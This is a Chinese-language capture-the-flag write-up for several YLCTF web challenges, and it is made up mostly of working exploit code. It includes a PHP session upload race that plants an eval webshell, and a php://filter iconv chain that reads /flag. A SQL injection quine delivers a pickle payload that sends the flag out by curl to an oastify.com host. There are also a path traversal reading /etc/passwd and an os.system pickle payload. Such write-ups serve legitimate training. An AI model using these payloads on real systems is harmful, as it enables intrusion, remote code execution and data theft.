

那这里就很好办了，我们打个session文件条件竞争上去，但是临时文件目录在哪里我们还要继续读

```
file:///etc/php/7.0/apache2/php.ini
```



```python
import io
import sys
import requests
import threading

sessid = 'baozongwi'

def WRITE(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://challenge.yuanloo.com:29585/index.php',
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "1\necho '<?php eval($_POST[a]);'>/var/www/html/uploads/shell.php\n"},
            files={"file": ('wi.txt', f)},
            cookies={'PHPSESSID': sessid}
        )

def READ(session):
    while True:
        request = requests.session()
        data = {
            'action': 'login',
            'username': 'test',
            'password': 'test123'
        }
        request.post("http://challenge.yuanloo.com:29585/", data=data)

        data = {
            'action': 'download_message',
            'data': '`. /???/???/???/???/??????????????`;'
        }
        request.post("http://challenge.yuanloo.com:29585/", data=data)

        if requests.get("http://challenge.yuanloo.com:29585/uploads/shell.php").status_code != 404:
            print('Success!')
            exit(0)

with requests.session() as session:
    t1 = threading.Thread(target=WRITE, args=(session,))
    t1.daemon = True
    t1.start()

    READ(session)
```

唯一注意的就是`sess_baozongwi`，而且要够快不然文件就没了

## [Round 2] Pseudo

文件上传2000字节，基本没希望了上传图片



这里可以直接读取文件但是要绕过一下，使用filter链绕过

```php
<?php
$base64_payload = "R0lGODlh"; /*GIF89a*/
$conversions = array(
    '/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
    '6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
    'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}

$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=/flag";
echo $final_payload;
```

这里使用网上的脚本上次nepCTF存下来的，哈哈谢谢橘子师傅提醒

```
GET /download.php?file=php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/flag HTTP/1.1
Host: challenge.yuanloo.com:45256
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=7FF34B803FE2BCB06D97E8A3D66DD2A9; PHPSESSID=qmae5dc2p3e3a55m7knvvrbqj1
Connection: close


```

读出来之后自己补一个大括号，我觉得官网的不好用

```
YLCTF{8e6174ca-f2cf-4dc2-8dc4-624a325341aa}
```

## [Round 2] SNEKLY

看到源码发现一个反序列化

```python
from flask import Flask, render_template, request, jsonify
from flask_login import LoginManager, UserMixin
import sqlite3
import base64
import pickle
import os

app = Flask(__name__)

app.config['SECRET_KEY'] = '060ac533d307'
app.static_folder = 'static'
login_manager = LoginManager()
login_manager.init_app(app)
login_manager.login_view = 'login'

user = {}

current_dir = os.path.dirname(os.path.abspath(__file__))

db_path = os.path.join(current_dir, 'data.db')


class User(UserMixin):
    def __init__(self, id, username, password_hash, data):
        self.id = id
        self.username = username
        self.password_hash = password_hash
        self.data = data


@login_manager.user_loader
def load_user(user_id):
    conn = sqlite3.connect(db_path)
    cursor = conn.cursor()
    cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))
    user_data = cursor.fetchone()
    conn.close()

    if user_data:
        return User(id=user_data[0], username=user_data[1], password_hash=user_data[2], data=user_data[3])
    return None


@app.route('/')
def index():
    return render_template("login.html")


@app.route('/login', methods=['POST'])
def login():
    global user
    if request.method == "POST":
        username = request.form.get('username')
        password = request.form.get('password')

        if not username or not password:
            return jsonify({"code": 1, "msg": "用户名或密码不能为空"})

        try:
            con = sqlite3.connect(db_path)
            cur = con.cursor()

            output = cur.execute(
                'SELECT * FROM users WHERE username = {post[username]!r} AND password = {post[password]!r}'
                .format(post=request.form)
            ).fetchone()

            if output is None:
                return jsonify({"code": 1, "msg": "用户名或密码错误"})

            user['id'], user['username'], user['password'], user['data'] = output

            # 使用安全的密码验证方法
            if (user['username'] == username) and (user['password'] == password):
                return jsonify({"code": 0, "msg": "登录成功"})
            else:
                user = {}
                return jsonify({"code": 1, "msg": "用户名或密码错误"})
        except sqlite3.Error as e:
            print(f"数据库错误: {e}")
            return jsonify({"code": 1, "msg": "服务器错误，请稍后重试"})
    return jsonify({"code": 1, "msg": "无效的请求方法"})


@app.route('/unSer')
def unSer():
    try:
        data = base64.b64decode(user['data'])
        if any(keyword in data for keyword in [b'getattr', b'R', b'map', b'eval', b'exec', b'import']):
            raise pickle.UnpicklingError("unSer")
        pickle.loads(data)
    except Exception as e:
        pass
    return "unSer"


if __name__ == "__main__":
    app.run(host='0.0.0.0')

```



使用bp打一个dnslog



```python
import base64
import requests


def quine(data):
    data = data.replace('$$', "REPLACE(REPLACE(REPLACE($$,CHAR(39),CHAR(34)),CHAR(36),$$), CHAR(92), CHAR())")
    data1 = data.replace("'", '"').replace('$$', "'$'")
    data = data.replace('$$', f'"{data1}"')
    return data


def exp():
    username = "test\"'"

    opcode = b'''c__builtin__
filter
p0
0(S'curl http://`cat /f*`.514kidfgox0scfridaihzc0ef5lv9k.oastify.com'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
tuple
p4
(g3
t\x81.'''
    a = base64.b64encode(opcode).decode()
    res = ''
    for i in a:
        if ord(i) > 58 or ord(i) < 47:
            res += "||CHAR(" + str(ord(i)) + ")"
        else:
            res += "||" + i
    res = res[2:]

    password = f" UNION SELECT $$, CHAR({','.join(str(ord(c)) for c in username)}), $$,({res});-- -"
    password = quine(password)

    requests.post(url="http://challenge.yuanloo.com:45399/login",
                  data={
                      "username": username,
                      "password": password
                  })

    requests.get(url="http://challenge.yuanloo.com:45399/unSer")


if __name__ == "__main__":
    exp()
```



```
YLCTF{a6e8bfab-d36b-4f53-93e7-dc30a546ea64}
```

## [Round 3] 404

```
Hint: Are you looking for something? Maybe 'f12g.php' has what you need
```

得到响应包

```http
HTTP/1.1 302 Found
Date: Wed, 30 Oct 2024 14:21:24 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Server-Timing: 5Y67Y2EucGhw5YGa5Liq5pWw5a2m6aKY5ZCn, edge;dur=1
location: 404.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

去ca.php做个数学题吧
```

麻了，又是这种脚本每次我写的老慢了

```python
import requests
from bs4 import BeautifulSoup
import math

def fetch_and_calculate(session):
    url = 'http://challenge.yuanloo.com:27743/ca.php'
    response = session.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    pre_content = soup.find('pre').text.strip()

    # 替换变量名和函数
    pre_content = pre_content.replace('$temp1', 'temp1').replace('$temp2', 'temp2').replace('$temp3', 'temp3').replace('$temp4', 'temp4').replace('$answer', 'answer')
    pre_content = pre_content.replace('log', 'math.log').replace('sqrt', 'math.sqrt').replace('pow', 'math.pow').replace('sin', 'math.sin')
    pre_content = pre_content.replace('cos', 'math.cos').replace('tan', 'math.tan').replace('exp', 'math.exp').replace('abs', 'abs')

    # 用字典来代替 exec，避免安全隐患
    local_vars = {}
    exec(pre_content, {"math": math}, local_vars)

    # 输出最终答案，保留两位小数
    final_answer = round(local_vars['answer'], 2)
    print(f"计算出的答案: {final_answer:.2f}")

    # 准备 POST 请求的数据
    data = {
        'user_answer': final_answer
    }

    post_url = 'http://challenge.yuanloo.com:27743/ca.php'
    post_response = session.post(post_url, data=data)

    # 打印 POST 请求的响应及其内容
    print(f"POST 请求的响应状态码: {post_response.status_code}")
    print("POST 请求的响应内容:")
    print(post_response.text)

# 创建会话并执行计算
with requests.Session() as session:
    fetch_and_calculate(session)

```

这个人机是真的哈，两个url都不一样

## [Round 3] PRead

非预期了直接

```
GET /export_notes?filename=../../../etc/passwd HTTP/1.1
Host: challenge.yuanloo.com:39607
Cache-Control: max-age=0
Origin: http://challenge.yuanloo.com:39607
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.yuanloo.com:39607/add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=7FF34B803FE2BCB06D97E8A3D66DD2A9; PHPSESSID=qmae5dc2p3e3a55m7knvvrbqj1
Connection: close


```

然后就是我之前写过的一篇文章，读取进程环境变量

预期解是，我们这里不是已经下载了pkl文件吗，那肯定就是一个pickle反序列化了

```python
import pickle
import base64
import os
class payload(object):
    def __reduce__(self):
        return (os.system, ('ls / > /tmp/1',))

a = payload()
payload = pickle.dumps(a)
print(base64.b64encode(payload).decode())
```

但是仍然是利用这个路由去读取文件，不过这里有个小小的细节，我如果在Windows里面直接写文件的话他不解析，那么只能在Linux里面去了

```
echo gASVJQAAAAAAAACMAm50lIwGc3lzdGVtlJOUjA1scyAvID4gL3RtcC8xlIWUUpQu|base64 -d > poc.pkl
```

## [Round 3] StrmD&&[Round 3] ignite

java看不了一点
